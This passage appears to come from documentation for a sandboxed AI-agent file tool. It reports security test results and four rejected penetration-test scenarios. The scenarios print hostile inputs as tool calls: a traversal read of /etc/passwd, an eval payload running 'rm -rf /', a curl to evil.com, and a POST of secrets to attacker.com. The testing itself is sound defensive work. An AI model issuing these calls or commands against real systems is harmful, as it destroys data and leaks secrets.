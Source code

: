 **Tests:**
1. ✅ Path validation (6 attack vectors)
2. ✅ Code security scanning (7 malicious patterns)
3. ✅ Safe code allowance (3 legitimate patterns)
4. ✅ File operations (4 scenarios)
5. ✅ Tool sanitization (3 injection attempts)
6. ✅ Sandbox status

**Results:**
```
✅ All Security Features Operational:
   1. Path validation (prevents escape)
   2. Code scanning (blocks eval/exec/subprocess)
   3. Tool sanitization (prevents injection)
   4. Extension whitelist (only safe file types)
   5. Size limits (prevents resource exhaustion)
   6. Audit logging (all operations tracked)
```

### Penetration Test Scenarios

**Scenario 1: Directory Traversal**
```python
# Attack
tool_call("read_file", {"file_path": "../../../etc/passwd"})

# Result
❌ Rejected: "Path outside sandbox rejected"
```

**Scenario 2: Code Injection via Replace**
```python
# Attack
tool_call("modify_file", {
    "file_path": "test.py",
    "search": "x",
    "replace": "eval('__import__(\"os\").system(\"rm -rf /\")')"
})

# Result
❌ Rejected: "Modified code failed security validation"
# Violations: ['Forbidden pattern: eval']
```

**Scenario 3: Subprocess Execution**
```python
# Attack
code = "import subprocess\nsubprocess.run(['curl', 'evil.com'])"

# Result
❌ Rejected: "Code security validation failed"
# Violations: ['Forbidden pattern: subprocess', 'Dangerous import: subprocess']
```

**Scenario 4: Network Access**
```python
# Attack
code = "import requests\nrequests.post('http://attacker.com', data=secrets)"

# Result
❌ Rejected: "Code security validation failed"
# Violations: ['Forbidden pattern: requests.post', 'Dangerous import: requests']
```

---